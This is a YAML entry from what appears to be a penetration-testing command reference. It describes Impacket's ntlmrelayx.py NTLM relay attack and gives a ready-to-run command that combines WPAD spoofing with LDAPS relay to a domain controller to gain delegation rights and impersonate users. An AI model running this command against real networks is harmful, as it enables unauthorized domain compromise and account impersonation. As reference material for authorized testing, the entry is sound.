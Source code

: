 ```yaml
---
description: |
  Impacket's ntlmrelayx.py performs NTLM Relay Attacks, creating an SMB and HTTP server and relaying credentials to various different protocols (SMB, HTTP, LDAP, etc.).

  The below command will perform WPAD spoofing to force the victim machine to authenticate to the attacker controlled host. The command will then relay the authentication to create a new computer object and grant it delegation rights to impersonate users on the victim machine. This command should be used in conjunction with mitm6.

  Command Reference:

  	Target Domain Controller: dc.test.local

command: |
  python3 ntlmrelayx.py -t ldaps://dc.test.local -wh test-wpad --delegate-access
items:
  - No_Creds
services:
  - NTLM
  - LDAP
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py
  - https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
---
```

